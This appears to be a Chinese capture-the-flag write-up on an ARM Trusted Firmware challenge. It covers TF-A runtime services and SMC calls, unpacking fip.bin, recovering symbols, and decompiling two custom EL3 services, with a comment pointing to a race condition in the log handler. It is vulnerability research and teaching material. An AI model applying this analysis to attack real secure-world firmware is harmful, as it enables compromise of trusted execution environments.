








# 题目分析

## ATF基础知识

参考：

* https://github.com/ARM-software/arm-trusted-firmware.git
* https://www.virtualopensystems.com/en/services/arm-trusted-firmware-extended-services/
* https://hackmd.io/@BooleanII/linux2024-ARM_Trusted_Firmware#ARM-trusted-firmware

Trusted Firmware-A (TF-A) is a reference implementation of secure world software for [Arm A-Profile architectures](https://developer.arm.com/architectures/cpu-architecture/a-profile) (Armv8-A and Armv7-A), including an Exception Level 3 (EL3) [Secure Monitor](http://www.arm.com/products/processors/technologies/trustzone/tee-smc.php). It provides a suitable starting point for productization of secure world boot and runtime firmware, in either the AArch32 or AArch64 execution states.

ATF 是一个基于 ARMv8 的开源框架，用于使用 TrustZone，并分别在安全世界和普通世界中启动安全负载和非受信任的固件（例如 U-Boot 等）。**安全世界和普通世界之间的上下文切换仅能在名为 Secure Monitor 或 EL3 的异常层中实现**。

ATF的功能有两个：

1. boot
2. runtime firmware（在EL3的异常层，通过smc指令实现）



### 源码结构

ATF 是 ARM 的可信固件，官方提供了 [TF-A](https://github.com/ARM-software/arm-trusted-firmware.git) 固件源码，源码结构主要为以下几个部分：



通过`blx/blx_main.c`中`blx_main`函数上方注释可以大概得知其功能：

1. BL1：仅在冷启动后由主 CPU 调用，完成 CPU 和部分设备的初始化，加载 BL2 镜像。我们不关心 TF-A 中的 BL1 部分代码。
2. BL2：BL2 中唯一需要做的就是加载后续镜像并将控制权交给下一个 BL。BL2 占用的内存将由 BL3x 阶段回收。BL2 完全在 S-EL1 中运行。我们不关心 BL2 部分代码。
3. BL2u：如果平台定义了 SCP_BL2U_BASE，加载 SCP_BL2U，执行平台设置，返回 EL3。我们不关心 BL2u 部分代码。
4. BL31：BL31 负责在将控制权交给引导加载程序或操作系统之前，**为主 CPU 设置运行时服务。此功能调用`runtime_svc_init()`，该函数初始化所有已注册的运行时服务**。运行时服务将为核心设置足够的上下文，以便切换到下一个异常级别。当此函数返回时，核心将通过 ERET 切换到预定的异常级别。
5. BL32：安全系统固件，比如 OP-TEE等。我们不关心 BL2 部分代码。

整个启动流程调用关系和层级结构如下，主要关注 BL31 的部分：




### runtime service

在BL31中，在`bl31\bl31_main.c: bl31_main()`调用`common\runtime_svc.c: runtime_svc_init()`注册运行时服务，并执行每个服务的初始化函数。

每个服务对应一个`rt_svc_desc_t`类型的结构体，所有服务存储在`__RT_SVC_DESCS_START__`结构体数组中，每个服务对应一个唯一的`oen`，`rt_svc_descs_indices`哈希表记录了`oen`与在`__RT_SVC_DESCS_START__`结构体数组中序号的映射关系：

* `service = __RT_SVC_DESCS_START__[index]`
* `oen = (service->call_type<<6)|(service->start_oen&0x3f)`（高2bits标识调用类型，低6bits标识oen）
* `rt_svc_descs_indices[oen] = index`

定义服务的相关结构体如下：

```c
/*
 * Prototype for runtime service SMC handler function. x0 (SMC Function ID) to
 * x4 are as passed by the caller. Rest of the arguments to SMC and the context
 * can be accessed using the handle pointer. The cookie parameter is reserved
 * for future use
 */
typedef uintptr_t (*rt_svc_handle_t)(uint32_t smc_fid, // x0: smc fid
				  u_register_t x1,
				  u_register_t x2,
				  u_register_t x3,
				  u_register_t x4, // x1-x4: params
				  void *cookie, // Reserve
				  void *handle, // Rest of the arguments to SMC and the context
				  u_register_t flags);
typedef struct rt_svc_desc {
	uint8_t start_oen;
	uint8_t end_oen;
	uint8_t call_type; // fast/yield call
	const char *name; // 服务名称
	rt_svc_init_t init; // 初始化函数
	rt_svc_handle_t handle; // 服务句柄
} rt_svc_desc_t;

/*
 * Convenience macros to declare a service descriptor
 */
#define DECLARE_RT_SVC(_name, _start, _end, _type, _setup, _smch)	\
	static const rt_svc_desc_t __svc_desc_ ## _name			\
		__section(".rt_svc_descs") __used = {			\
			.start_oen = (_start),				\
			.end_oen = (_end),				\
			.call_type = (_type),				\
			.name = #_name,					\
			.init = (_setup),				\
			.handle = (_smch)				\
		}
```

服务注册过程如下：

```c
/*******************************************************************************
 * This function calls the initialisation routine in the descriptor exported by
 * a runtime service. Once a descriptor has been validated, its start & end
 * owning entity numbers and the call type are combined to form a unique oen.
 * The unique oen is used as an index into the 'rt_svc_descs_indices' array.
 * The index of the runtime service descriptor is stored at this index.
 ******************************************************************************/
void __init runtime_svc_init(void)
{
	int rc = 0;
	uint8_t index, start_idx, end_idx;
	rt_svc_desc_t *rt_svc_descs;

	/* Assert the number of descriptors detected are less than maximum indices */
	assert((RT_SVC_DESCS_END >= RT_SVC_DESCS_START) &&
			(RT_SVC_DECS_NUM < MAX_RT_SVCS));

	/* If no runtime services are implemented then simply bail out */
	if (RT_SVC_DECS_NUM == 0U)
		return;

	/* Initialise internal variables to invalid state */
	(void)memset(rt_svc_descs_indices, -1, sizeof(rt_svc_descs_indices));

	rt_svc_descs = (rt_svc_desc_t *) RT_SVC_DESCS_START;
	for (index = 0U; index < RT_SVC_DECS_NUM; index++) {
		rt_svc_desc_t *service = &rt_svc_descs[index];

		/*
		 * An invalid descriptor is an error condition since it is
		 * difficult to predict the system behaviour in the absence
		 * of this service.
		 */
		rc = validate_rt_svc_desc(service);
		if (rc != 0) {
			ERROR("Invalid runtime service descriptor %p\n",
				(void *) service);
			panic();
		}

		/*
		 * The runtime service may have separate rt_svc_desc_t
		 * for its fast smc and yielding smc. Since the service itself
		 * need to be initialized only once, only one of them will have
		 * an initialisation routine defined. Call the initialisation
		 * routine for this runtime service, if it is defined.
		 */
		if (service->init != NULL) {
			rc = service->init();
			if (rc != 0) {
				ERROR("Error initializing runtime service %s\n",
						service->name);
				continue;
			}
		}

		/*
		 * Fill the indices corresponding to the start and end
		 * owning entity numbers with the index of the
		 * descriptor which will handle the SMCs for this owning
		 * entity range.
		 */
		start_idx = (uint8_t)get_unique_oen(service->start_oen,
						    service->call_type);
		end_idx = (uint8_t)get_unique_oen(service->end_oen,
						  service->call_type);
		assert(start_idx <= end_idx);
		assert(end_idx < MAX_RT_SVCS);
		for (; start_idx <= end_idx; start_idx++)
			rt_svc_descs_indices[start_idx] = index;
	}
}

/*
 * This function combines the call type and the owning entity number
 * corresponding to a runtime service to generate a unique owning entity number.
 * This unique oen is used to access an entry in the 'rt_svc_descs_indices'
 * array. The entry contains the index of the service descriptor in the
 * 'rt_svc_descs' array.
 */
static inline uint32_t get_unique_oen(uint32_t oen, uint32_t call_type)
{
	return ((call_type & FUNCID_TYPE_MASK) << FUNCID_OEN_WIDTH) |
		(oen & FUNCID_OEN_MASK);
}
```


### 执行环境

在ARM TrustZone架构下，系统被分为两个主要的世界：

* **Secure World（安全世界）**：即TEE（Trusted Execution Environment，可信执行环境），是受保护的操作系统和应用程序的执行环境，如 **OP-TEE**（可信执行环境）等。这个环境对系统的敏感数据进行加密和保护，避免受到恶意软件或攻击。
* **Non-Secure World（非安全世界）**：即REE（Rich Execution Environment，富执行环境），是普通的应用执行环境。在 REE 中，操作系统和应用程序运行在不受硬件级别保护的环境中，这些程序对安全世界中的敏感数据没有直接访问权限。


### smc calls

由github我们能获取到`smc`指令的用户手册：[SMC Calling Convention](http://infocenter.arm.com/help/topic/com.arm.doc.den0028b/ARM_DEN0028B_SMC_Calling_Convention.pdf)

根据文档得知，在 ARM 架构中，同步控制通过安全监控调用（Secure Monitor Call, SMC）异常在正常的非安全状态和安全状态之间进行转换。SMC 异常是由 SMC 指令生成的，并由安全监控处理。安全监控的操作由通过寄存器传递的参数决定。

定义了两种类型的调用：

* **快速调用**（fast calls）：执行原子操作。从调用处理器（PE）的角度来看，该调用是原子的，并且在请求的操作完成后返回。
* **让步调用**（yielding calls）：**启动的操作可以被非安全中断抢占**。该调用可以在请求的操作完成之前返回。

附录 A 提供了处理让步调用的示例。

每次 SMC/HVC 调用时都会传递功能标识符，它决定了：

* 要调用的服务
* 要调用的功能
* 使用的调用约定（32 位/64 位）
* 使用的调用类型（快速调用/让步调用）

调用者请求的功能使用 32 位整数值表示。它始终作为第一个参数传递给每个 SMC 或 HVC 调用，在 R0 或 W0 寄存器中。该 32 位值中的几个位具有特定的含义，如下表所示：




当使用 SMC64/HVC64 协议时，SMC 或 HVC 指令最多可以在寄存器中传递6个 64 位参数，并且可以在寄存器中返回最多4个 64 位值。（对于来自 EL2 的 SMC 调用，可以添加一个可选的第7个 32 位参数client ID在W07）。

当从 AArch64 状态发起 SMC64/HVC64 调用时：

* 函数标识符通过寄存器 W0 传递。
* 参数通过寄存器 X1-X6 传递。
* 结果通过寄存器 X0-X3 返回。
* 寄存器 X18-X30 和栈指针`SP_EL0`以及`SP_ELx`被callee保存，并且必须在 SMC 或 HVC 调用期间保持不变。

在 ARM 架构中，SMC 指令用于从非安全世界（EL1 或 EL0）调用安全世界（通常是 EL3）。因此，**调用 SMC 指令时需要确保当前 CPU 正在执行在 EL1 或 EL0 中**。


## 解包

参考：[Draytek3910 固件解密及漏洞分析](https://www.iotsec-zone.com/article/479)

参考ATF 启动流程，CPU 会先执行 BL1，BL1 通常被烧录在 ROM 中，BL1 完成初始化工作之后会通过 UUID 查找其他 BL 的位置，BL2、BL3、系统镜像等部分被单独打包在 fip.bin，存放到 flash 内。考虑到关键部分应该在 fip.bin，所以要想办法找到此文件并解包。
查看[ATF arm64的源码](https://github.com/ARM-software/arm-trusted-firmware.git)，由`include\tools_share\firmware_image_package.h`可知，fip.bin 以`0xAA640001`开头：

```c
/* This is used as a signature to validate the blob header */
#define TOC_HEADER_NAME	0xAA640001
```

010editor中找到偏移位置：



使用`dd`工具提取fip.bin：

```bash
dd if=flash.bin of=fip.bin skip=262144 bs=1 # 0x40000=262144
```

之后使用官方解包工具`fiptool`进行解包：

```bash
# 查看信息
~/Tools/arm-trusted-firmware/tools/fiptool/fiptool info ./fip.bin 
Trusted Boot Firmware BL2: offset=0x128, size=0x6439, cmdline="--tb-fw"
EL3 Runtime Firmware BL31: offset=0x6561, size=0xD07C, cmdline="--soc-fw"
Secure Payload BL32 (Trusted OS): offset=0x135DD, size=0x1C, cmdline="--tos-fw"
Secure Payload BL32 Extra1 (Trusted OS Extra1): offset=0x135F9, size=0x88378, cmdline="--tos-fw-extra1"
Non-Trusted Firmware BL33: offset=0x9B971, size=0x200000, cmdline="--nt-fw"
# 解包
~/Tools/arm-trusted-firmware/tools/fiptool/fiptool unpack ./fip.bin 
# 可以只解包一部分
~/Tools/arm-trusted-firmware/tools/fiptool/fiptool unpack --soc-fw ./fip.bin
```


## 逆向分析

### 恢复符号

首先通过字符串判断出使用的是v2.10.0版本的源码：

```bash
strings flash.bin | grep v2\.             
v2.10.0	(debug):v2.10-dirty
```

下载源码编译带符号的二进制文件：

```bash
wget https://github.com/ARM-software/arm-trusted-firmware/archive/refs/tags/v2.10.0.zip
unzip v2.10.0.zip
cd arm-trusted-firmware-2.10.0

export ARCH=arm64
export CROSS_COMPILE=aarch64-linux-gnu-
make PLAT=qemu DEBUG=1 V=1 DISABLE_BIN_GENERATION=1 # 生成elf可执行文件而非bin镜像文件
```

编译好的文件在`build/qemu/debug/bl31/bl31.elf`路径下，用IDA打开，导出符号文件，再在IDA我们提取的镜像文件中加载符号，能够恢复部分符号，但仍然有一部分需要自己去逆向添加。


### rt_svc_desc_t

对比源码，通过字符串`"\nInvalid runtime service descriptor %p\n"`找到函数`runtime_svc_init`对应`sub_5874`，进而找到handler列表`rt_svc_descs`偏移为`0xC120`，IDA恢复相关结构体：

```c
typedef signed char        int8_t;
typedef short              int16_t;
typedef int                int32_t;
typedef long long          int64_t;
typedef unsigned char      uint8_t;
typedef unsigned short     uint16_t;
typedef unsigned int       uint32_t;
typedef unsigned long long uint64_t;
typedef unsigned long long uintptr_t;
typedef unsigned long u_register_t;
typedef uintptr_t (*rt_svc_handle_t)(uint32_t smc_fid,
				  u_register_t x1,
				  u_register_t x2,
				  u_register_t x3,
				  u_register_t x4,
				  void *cookie,
				  void *handle,
				  u_register_t flags);
typedef int32_t (*rt_svc_init_t)(void);
typedef struct rt_svc_desc {
	uint8_t start_oen;
	uint8_t end_oen;
	uint8_t call_type;
	const char *name;
	rt_svc_init_t init;
	rt_svc_handle_t handle;
} rt_svc_desc_t;
```

恢复`rt_svc_descs`，可以看到两个自己实现的服务`STORAGE_SVC`和`LOG_SVC`。（如果一开始没有设定加载地址，需要rebase到`0xE0A0000`才能正确识别地址）

```c
ROM:000000000E0AC120 ; rt_svc_desc_t rt_svc_descs[6]
ROM:000000000E0AC120 rt_svc_descs    rt_svc_desc_t <9, 9, 1, aStorageSvc, STORAGE_SVC_init, \
ROM:000000000E0AC120                                         ; DATA XREF: sub_E0A5874+18↑o ; "STORAGE_SVC"
ROM:000000000E0AC120                                STORAGE_SVC_handler>
ROM:000000000E0AC140                 rt_svc_desc_t <7, 7, 0, aLogSvc, LOG_SVC_init, LOG_SVC_handler> ; "LOG_SVC"
ROM:000000000E0AC160                 rt_svc_desc_t <0, 0, 1, aArmArchSvc, 0, sub_E0A016C> ; "arm_arch_svc"
ROM:000000000E0AC180                 rt_svc_desc_t <0x32, 0x3F, 0, aOpteedStd, 0, sub_E0A3948> ; "opteed_std"
ROM:000000000E0AC1A0                 rt_svc_desc_t <0x32, 0x3F, 1, aOpteedFast, sub_E0A38D0, sub_E0A3948> ; "opteed_fast"
ROM:000000000E0AC1C0                 rt_svc_desc_t <4, 4, 1, aStdSvc, sub_E0A5BF8, sub_E0A5C1C> ; "std_svc"
```

由于没有正确识别`0xE0D....`的地址段，故我自己在`0xE0D6000~0xE0D7FFF`添加了一个段。


### STORAGE_SVC

`STORAGE_SVC`的功能有2个：

1. `smc_fid == 0xC9000031`：`memcpy(&storage_svc_list[x1], x2, x3)`
2. `smc_fid == 0xC9000032`：`memcpy(x2, &storage_svc_list[x1], x3)`

`storage_svc_list[0x10]`为0x40大小的结构体数组，要求：

* `x1 <= 0xf`
* `is_secure(x2) == False`
* `x3 <= 0x40`

```c
__int64 STORAGE_SVC_init()
{
  max_size = 64LL;
  return 0LL;
}

uintptr_t STORAGE_SVC_handler(
        uint32_t smc_fid,
        u_register_t x1,
        u_register_t x2,
        u_register_t x3,
        u_register_t x4,
        void *cookie,
        void *handle,
        u_register_t flags)
{
  const char *v9; // x0
  __int64 v10; // x1
  u_register_t size; // x2
  storage_svc_t *src; // x1
  storage_svc_t *dst; // x0
  uintptr_t result; // x0

  if ( x1 <= 0xF )
  {
    if ( max_size > x3 )
    {
      if ( !is_secure(x2) )
      {
        if ( smc_fid == 0xC9000031 )
        {
          size = x3;
          src = (storage_svc_t *)x2;
          dst = &storage_svc_list[x1];
        }
        else
        {
          if ( smc_fid != 0xC9000032 )
          {
            v9 = "unknown smc error\n";
            goto LABEL_3;
          }
          size = x3;
          src = &storage_svc_list[x1];
          dst = (storage_svc_t *)x2;
        }
        memcpy(dst, src, size);
        v10 = 0LL;
        goto LABEL_13;
      }
      v9 = "data is secure memory\n";
    }
    else
    {
      v9 = "size too big\n";
    }
  }
  else
  {
    v9 = "idx too big\n";
  }
LABEL_3:
  log_err((__int64)v9);
  v10 = -1LL;
LABEL_13:
  result = (uintptr_t)handle;
  *(_QWORD *)handle = v10;
  return result;
}
```

`STORAGE_SVC_handler`中如果报错则调用`log_err`函数，该函数中对`pLog`进行了重置、写入等操作：

```c
char *__fastcall log_err(char *s)
{
  char *_s; // x21
  signed int s_len; // w19
  char *p_end; // x2

  if ( pLog )
  {
    _s = s;
    s_len = (unsigned int)strlen(s);
    if ( (unsigned int)pLog->ptr - (pLog->data) + s_len + 1 > 0x7FF ) // 检查是否会溢出 pLog->data
      reset_pLog(); // 会溢出则重置 pLog->ptr = pLog->data
    memcpy(pLog->ptr, _s, s_len); // 在reset_pLog之后，memcpy前竞争，在pLog->ptr写入max_size的地址（0xE0D70B0）
    p_end = &pLog->ptr[s_len];
    pLog->ptr = p_end;
    *p_end = 0;
    s = pLog->ptr + 1;
    pLog->ptr = s;
  }
  return s;
}

char *reset_pLog()
{
  char *result; // x0
  unsigned __int8 *data; // x0

  result = (char *)&storage_svc_list[0xD] + 0x38;
  if ( pLog )
  {
    data = (unsigned __int8 *)pLog->data;
    pLog->ptr = pLog->data;
    return (char *)memset(data, 0, 0x800uLL);
  }
  return result;
}
```


### LOG_SVC

`LOG_SVC`有2个功能：

```c
__int64 LOG_SVC_init()
{
  log_svc_list[0].smc_fid = 2LL;
  log_svc_list[0].handler = (__int64)sub_E0A5838;
  log_svc_list[1].smc_fid = 3LL;
  log_svc_list[1].handler = (__int64)sub_E0A263C;
  return 0LL;
}

uintptr_t LOG_SVC_handler(
        uint32_t smc_fid,
        u_register_t x1,
        u_register_t x2,
        u_register_t x3,
        u_register_t x4,
        void *cookie,
        void *handle,
        u_register_t flags)
{
  __int64 v9; // x6
  int idx; // w6

  if ( log_svc_list[0].smc_fid == (unsigned __int16)smc_fid )
  {
    idx = 0;
    goto call_handler;
  }
  v9 = -1LL;
  if ( (unsigned __int16)smc_fid == log_svc_list[1].smc_fid )
  {
    idx = 1;
call_handler:
    v9 = (*((__int64 (__fastcall **)(u_register_t, u_register_t, u_register_t, u_register_t))&log_svc_list[idx].handler))(
           x1,
           x2,
           x3,
           x4);
  }
  *(_QWORD *)handle = v9;
  return (uintptr_t)handle;
}
```

1. `smc_fid == 2`：

   * `is_secure(x1) == True`: `return 0`
   * `is_secure(x1) == False`: `pLog = x1; reset_pLog();`

   ```c
   char *__fastcall sub_E0A5838(uint64_t x1)
   {
     bool result; // x0
   
     result = is_secure(x1);
     if ( !result )
     {
       pLog = (log_err_t *)x1;
       return reset_pLog();
     }
     return result;
   }
   ```

2. `smc_fid == 3`：

   * `is_secure(x1) == True`: `return 0`
   * `is_secure(x1) == False`: `memcpy(x1, pLog->data, 0x800); reset_pLog();`（将`pLog->data`拷贝到`x1`）

   ```c
   signed __int64 __fastcall sub_E0A263C(uint64_t x1)
   {
     signed __int64 len; // x19
   
     if ( !pLog || is_secure(x1) )
       return 0LL;
     len = pLog->ptr - pLog->data;
     memcpy((char *)x1, pLog->data, 0x800LL);
     reset_pLog();
     return len;
   }
   ```


### 判断内存地址是否安全

`sub_E0A2FF8`函数用于判断内存地址是否安全，通过`0xE0AD000`处的结构体进行判断，并有多处交叉引用：



